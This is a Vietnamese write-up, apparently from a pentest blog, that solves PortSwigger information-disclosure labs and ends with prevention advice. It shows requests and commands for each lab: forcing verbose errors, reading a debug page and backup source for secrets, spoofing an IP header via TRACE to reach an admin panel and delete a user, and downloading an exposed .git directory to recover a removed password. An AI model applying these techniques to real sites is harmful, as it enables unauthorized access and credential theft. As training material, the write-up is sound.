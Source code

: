 ```yaml
---
title: "[PortSwigger Lab] - Information Disclosure Vulnerabilities"
description: Solution of Information Disclosure Vulnerabilities Lab
date: 2025-06-12 20:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, information disclosure]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-12-portswigger-lab-information-disclosure-vulnerabilities/information-disclosure-vulnerabilities.png
    alt: Information Disclosure Vulnerabilities
---
```


## Introduction
---
### **Information Disclosure Vulnerabilities**
- **Information Disclosure Vulnerabilities** hay còn gọi là **information leakage**, là khi một website vô tình tiết lộ thông tin nhạy cảm cho người dùng — thường là không có chủ đích.

### How do information disclosure vulnerabilities arise?
1. Không loại bỏ nội dung nội bộ khỏi nội dung công khai
    - Lập trình viên để lại **comment** trong **HTML** như:

    ```html
    <!-- TODO: remove debug endpoint /debug-info before release -->
    ```
    - Dữ liệu test hoặc file ẩn bị lộ trong môi trường **production**.

2. Cấu hình bảo mật không đúng hoặc không đầy đủ
    - Không tắt chế độ **debug**, khiến **hacker** thấy thông tin như **stack trace**, phiên bản **framework**, v.v.
    - Cấu hình mặc định **(default config)** tiết lộ thông tin kỹ thuật như cấu trúc thư mục, lỗi **SQL**, **file .env**, v.v.
    - **Web server** trả về lỗi chi tiết **(verbose error)**, giúp kẻ tấn công suy đoán cấu trúc **backend**.

3. Thiết kế và hành vi ứng dụng có sai sót
    - Ứng dụng trả về lỗi khác nhau với tài khoản đúng và sai, giúp kẻ tấn công **brute-force username/email**:
    - Phản hồi HTTP 200/403/404 khác nhau tùy vào trạng thái tài nguyên (giúp dò đoán đường dẫn, file, ID...).

## Solve Information Disclosure Vulnerabilities Lab
---
### Lab: Information disclosure in error messages
- Truy cập 1 **product page** bất kỳ
- Thay đổi `product id` thành dạng **string** => Ứng dụng hiển thị lỗi kèm **version** của **framework**

Request
```
https://0a0b00f20356c863832f52f200930024.web-security-academy.net/product?productId=xnxx
```

Response
```
Internal Server Error: java.lang.NumberFormatException: For input string: "xnxx"
...

Apache Struts 2 2.3.31
```
- Copy và Submit

### Lab: Information disclosure on debug page
- Truy cập trang web và **inspect source**
- Tìm từ khóa `debug` ở phần **source** 
- **Enter** cho đến khi thấy

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```
- Truy cập đến `/cgi-bin/phpinfo.php` 
- Lấy `SECRET_KEY` và **submit**

### Lab: Source code disclosure via backup files

| Kiểu backup phổ biến                 | Ví dụ tên file                   |
| ------------------------------------ | -------------------------------- |
| Thêm dấu `~` vào cuối                | `index.php~`                     |
| Đổi đuôi sang `.bak`, `.old`, `.tmp` | `index.php.bak`, `config.js.old` |

- Truy cập `/robots.txt` là file hướng dẫn **google bot** tài nguyên nào được phép **index**
- Quan sát ta thấy đường dẫn đến `/backup`

```html
User-agent: *
Disallow: /backup
```
- Truy cập trang `/backup` và đọc mã nguồn của file bên trong nó

```java
ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "ha2e7u15efm2hbyxnub5ype2d16n73sp"
        ).withAutoCommit();
```
- Lấy password và submit

### Lab: Authentication bypass via information disclosure
- Truy cập trang web và gửi request đến **Burp Repeater**
- Thay đổi **method** thành `TRACE` và gửi lại request
    - TRACE là một phương thức chẩn đoán **(diagnostic)** trong **HTTP**.
    - Khi bạn gửi một yêu cầu `TRACE` tới máy chủ, nó sẽ phản hồi lại chính xác nội dung của yêu cầu bạn đã gửi.

```http
TRACE / HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
```
- Quan sát **response** có chứa trường `X-Custom-IP-Authorization: 118.69.31.247`
- Đây không phải là **header** tiêu chuẩn của **HTTP** mà là **custom header**
- Ứng dụng có thể đã sử dụng trường này để cho phép hoặc từ chối truy cập nếu địa chỉ **IP** được xác định là `"được phép"`
- Thay đổi request đến `/admin` và thêm trường này với **IP** là `127.0.0.1`

```http
TRACE /admin HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Gửi lại **request**
- Quan sát **response** chứa đường dẫn để xóa user `carlos`
- Gửi tiếp request để xóa user `carlos`

```http
TRACE /admin/delete?username=carlos HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Ứng dụng sẽ xác nhận rằng request đến từ `127.0.0.1` là request cục bộ, nhầm lẫn là admin nên cho phép truy cập tài nguyên trang **admin**

### Lab: Information disclosure in version control history
- Truy cập đến `/.git` => Lỗi cấu hình => Lộ file `.git`
- Tải file `.git` đó về

```zsh
wget -r https://0a41004e04a009548185fcda0083004e.web-security-academy.net/.git
```

#### **Idea 1:** Using **git** command
- Truy câp đến thư mục `.git` **(chưa có "git" thì lo mà tải đi nhá)**
- Xem **log** của **repository**

```zsh
git log
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 0591a2262f16349fbc79f83e1588f13877d6afbd
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

- Ta thấy **commit** có id `f5ebf4a50140e3538a518029f7c9f6ab8318c201` đã 
`Remove admin password from config` => Ta có thể xem sự thay đổi tại commit này để xem **password** bị xóa là gì

```zsh
git show f5ebf4a50140e3538a518029f7c9f6ab8318c201
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index ee7c7c9..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=d0udappaq6625y2dwbi8
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

- Author đã xóa `ADMIN_PASSWORD=d0udappaq6625y2dwbi8` và thay bằng `ADMIN_PASSWORD=env('ADMIN_PASSWORD')`
- Đăng nhập bằng tài khoản **admin** với **password** vừa tìm được
- Xóa user `carlos`

#### **Idea 2:** Using **Git Cola**
-[**Git Cola**](https://git-cola.github.io/downloads.html) Là một ứng dụng **GUI** mã nguồn mở giúp bạn sử dụng Git mà không cần dùng dòng lệnh **(terminal)**.
- Khởi động **Git Cola**
- Chọn thư mục chứa `.git` cần xem
- Click vào `admin.conf`, chọn **Commit Tab** > **Undo Last Commit**
- Click vào `admin.conf` để xem `password`

```
deleted file mode 100644
@@ -1 +0,0 @@
-ADMIN_PASSWORD=d0udappaq6625y2dwbi8
```


## Prevent
---
1. Xác định rõ thông tin nào là "nhạy cảm"
2. Kiểm tra mã nguồn để phát hiện rò rỉ thông tin
3. Sử dụng thông báo lỗi chung chung
4. Tắt tính năng debug, test và logging nhạy cảm ở production
5. Cấu hình kỹ lưỡng các công nghệ bên thứ ba

---
Goodluck! 🍀🍀🍀 